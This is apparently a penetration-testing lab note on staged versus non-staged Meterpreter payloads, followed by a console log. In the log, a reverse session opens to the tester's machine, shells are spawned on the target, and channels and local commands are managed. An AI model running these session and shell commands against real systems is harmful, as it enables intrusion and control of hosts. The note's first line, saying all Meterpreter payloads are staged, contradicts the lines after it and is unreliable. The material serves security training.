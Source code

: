 Note: All meterpreter payloads are staged, even though the output of "show payloads" contains both staged and non-staged. The difference between those two types is how the Meterpreter payload is transferred to the target machine. The non-staged version includes all components required to launch a Meterpreter session while the staged version uses a separate first stage to load these components. In situations where our bandwidth is limited or we want to use the same payload to compromise multiple systems in an assessment, a non-staged Meterpreter payload comes in quite handy.

```console
> run

[*] Meterpreter session 5 opened (192.168.45.198:4444 -> 192.168.249.16:35222) at 2024-04-07 14:37:49 -0400

meterpreter > help

meterpreter > sysinfo
Computer     : 172.29.0.2
OS           : Ubuntu 20.04 (Linux 5.4.0-132-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

meterpreter > getuid
Server username: daemon

// start interactive shell
meterpreter > shell
Process 147 created.
Channel 1 created.
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

// Ctrl Z
Background channel 1? [y/N]  y
meterpreter > 

meterpreter > shell
Process 149 created.
Channel 2 created.
whoami
daemon
^Z
Background channel 2? [y/N]  y
meterpreter >

meterpreter > channel -l

    Id  Class  Type
    --  -----  ----
    1   3      stdapi_process
    2   3      stdapi_process

meterpreter > channel -i 1
Interacting with channel 1...

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

// commands with "l" as prefix operate on the local system; in our case our Kali VM

meterpreter > lpwd
/home/kali

meterpreter > lcd /home/kali/Downloads
```
